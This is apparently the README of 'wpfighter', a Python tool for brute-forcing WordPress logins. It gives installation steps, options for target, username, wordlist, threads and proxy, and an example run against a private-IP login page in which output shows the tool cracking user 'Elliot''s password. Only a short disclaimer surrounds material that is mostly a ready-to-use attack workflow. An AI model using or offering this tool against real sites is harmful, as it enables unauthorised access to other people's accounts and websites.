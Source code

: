 
## Wpfighter Wordpress Brute Force Tool

# Installation:
* Clone the repository or download the script.
* Make sure you have Python 3.x installed.
* run ```git clone https://github.com/DrW3b/wpfighter.git```
* run ```cd wpfighter```
* Install the required modules by running ```pip install -r requirements.txt.```

# Usage:
```
python3 wpfighter.py [options]

options:
  -h, --help        show this help message and exit
  -d, --debug       debugging mode

target arguments:
  -t , --target     url of the target
  -u , --username   username of the target (default: admin)
  -p , --password   password of the target (change -p to --p to use a wordlist)

  --timeout         timed out for requests (default: 5)
  --thread          numbers of threading (default: 5)
  --proxy           using a proxy (ex: 127.0.0.1:8080)
  ```
  # Example:
  ```
  python3 wpfighter.py -t http://192.168.178.32/wp-login.php -u Elliot --p wordlist/1000-most-common-passwords.txt

██╗    ██╗██████╗ ███████╗██╗ ██████╗ ██╗  ██╗████████╗███████╗██████╗ 
██║    ██║██╔══██╗██╔════╝██║██╔════╝ ██║  ██║╚══██╔══╝██╔════╝██╔══██╗
██║ █╗ ██║██████╔╝█████╗  ██║██║  ███╗███████║   ██║   █████╗  ██████╔╝
██║███╗██║██╔═══╝ ██╔══╝  ██║██║   ██║██╔══██║   ██║   ██╔══╝  ██╔══██╗
╚███╔███╔╝██║     ██║     ██║╚██████╔╝██║  ██║   ██║   ███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝     ╚═╝     ╚═╝ ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝╚═╝  ╚═╝ v.1.8

Coded by: DrW3B

Wordpress Brute Force Tool

Legal Disclaimer:
This script is for educational and testing purposes only. Do not use it for illegal activities.
The author is not responsible for any misuse or damage caused by this script. Use at your own risk.


[16:08:33][INFO] testing connection to the target
[16:08:33][INFO] starting a login brute force
[16:08:36][SUCCESS] successfully entered into the target dashboard with username "Elliot" and password "ER28-0652"
[16:08:36][INFO] time taken "3 seconds" 
  ```
  
## Legal Disclaimer:
This script is for educational and testing purposes only. Do not use it for illegal activities.
The author is not responsible for any misuse or damage caused by this script. Use at your own risk.
